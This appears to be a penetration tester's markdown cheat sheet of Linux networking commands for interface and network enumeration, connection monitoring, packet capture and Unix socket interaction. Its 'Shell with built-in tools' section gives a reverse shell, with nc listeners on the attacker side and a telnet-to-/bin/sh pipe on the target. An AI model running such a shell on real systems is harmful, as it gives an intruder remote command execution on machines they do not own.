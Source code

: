 # Interface Information
```
/sbin/ifconfig -a
cat /etc/network/interfaces
cat /etc/sysconfig/network
```

# Network configuration
```
cat /etc/resolv.conf
cat /etc/sysconfig/network
cat /etc/networks
iptables -L
hostname
dnsdomainname
```

# Monitor network communication
```
lsof -i
lsof -i :80
grep 80 /etc/services
netstat -antup
netstat -antpx
netstat -tulpn
chkconfig --list
chkconfig --list | grep 3:on
last
w
```

# Cached IP and Mac Information
```
arp -e
route
/sbin/route -nee
```

# Change IP
```
ifconfig eth0 192.168.1.115
ifconfig eth0 192.168.1.115 netmask 255.255.255.0 broadcast 192.168.1.255
```

# Packet Capture
```
tcpdump tcp dst [ip] [port] and tcp dst [ip] [port]
tcpdump tcp dst 192.168.1.7 80 and tcp dst 10.5.5.252 21
```

# Shell with built-in tools 
```
nc -lvp 4444    # Attacker. Input (Commands)
nc -lvp 4445    # Attacker. Ouput (Results)
telnet [atackers ip] 44444 | /bin/sh | [local ip] 44445    # On the targets system. Use the attackers IP!
```
https://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/

# DHCP

Check `DHCP` page in `protocols` dir.

# DNS

Check `DNS` page in `protocols` dir.

# AF_UNIX
Used to communicate between processes on the same machine

# AF_INET and AF_INET6
Used for processes to communicate over a network connection.

# Interact with AF_UNIX Socket
```
nc -U /run/snapd.socket
GET / HTTP/1.1
Host: 127.0.0.1

```

# Tools
- Ship: https://null-byte.wonderhowto.com/how-to/linux-basics-for-aspiring-hacker-using-ship-for-quick-handy-ip-address-information-0181593/
